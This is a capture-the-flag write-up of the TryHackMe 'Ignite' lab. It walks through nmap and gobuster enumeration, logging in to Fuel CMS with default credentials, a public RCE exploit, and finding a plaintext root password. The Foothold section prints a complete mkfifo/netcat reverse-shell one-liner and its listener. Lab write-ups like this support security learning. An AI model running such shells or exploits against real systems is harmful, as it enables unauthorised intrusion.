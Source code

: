 ```yaml
---
title: "TryHackMe - Ignite"
author: Nasrallah
description: ""
date: 2022-03-21 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, rce, exploit]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Ignite](https://tryhackme.com/room/ignite) from [TryHackMe](https://tryhackme.com), and easy machine where we find a CMS vulnerable to RCE, we use an exploit to help us get a reverse shell on the machine, then we look through the CMS files to find a plain text password of root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Nmap scan report for 10.10.89.94
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

We only have port 80 open, and there is a robots.txt file, let's run a directory scan while we go check the webpage.

### WebPage

Let's navigate to the webpage.

![webpage](/assets/img/tryhackme/ignite/igniteweb.png)

We have Fuel CMS with version 1.4 running on the webserver. There is nothing else, let's check what we got from the directory scan.

#### Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/0                    (Status: 200) [Size: 16597]
/assets               (Status: 301) [Size: 315] [--> http://10.10.239.131/assets/]
/home                 (Status: 200) [Size: 16597]                                 
/index                (Status: 200) [Size: 16597]                                 
/index.php            (Status: 200) [Size: 16597]                                 
/lost+found           (Status: 400) [Size: 1134]                                  
/offline              (Status: 200) [Size: 70]                                    
/robots.txt           (Status: 200) [Size: 30]                                    
/server-status        (Status: 403) [Size: 301]                                   
===============================================================
```

Let's navigate to **/robots.txt**.

![robts](/assets/img/tryhackme/ignite/robots.png)

There is 1 disallowed entry, **/fuel**, let's see what there.

![login](/assets/img/tryhackme/ignite/loginpage.png)

We found a login page for **fuelcms**, let's see if we can get in by submitting some knows credentials.

![panle](/assets/img/tryhackme/ignite/panel.png)

I managed to login using **admin:admin**

Let's check if there is any exploit for this version of fuel cms.

![exploit](/assets/img/tryhackme/ignite/ignitexploitdb.png)

We found 3 RCE exploit, let's download one of the exploit and try run some commands. I will be using this [exploit](https://www.exploit-db.com/exploits/50477).

## **Foothold**

Let's run the exploit now.

![rce](/assets/img/tryhackme/ignite/rce.png)

We are able now to execute code on the machine, let's get a proper shell.

First, setup a listener on your attacking machine(`nc -lnvp 9001`) and execute the following command on the RCE prompt `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f`

>NOTE: Change the ip address on the command

![rce](/assets/img/tryhackme/ignite/mkfifo.png)

![rce](/assets/img/tryhackme/ignite/shell.png)

I used the python import pty trick to stabilize my shell.

## **Privilege Escalation**

For Privilege Escalation, i uploaded linpeas to the machine to do the scan for me.

![wget](/assets/img/tryhackme/ignite/wget.png)

Let's run the script and see what it will find.

![rootpass](/assets/img/tryhackme/ignite/rootpass.png)

There is a root password in plain text in one of the file of the application. Let's see if it works.

![root](/assets/img/tryhackme/ignite/root.png)

Great! The password worked and we got root access.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
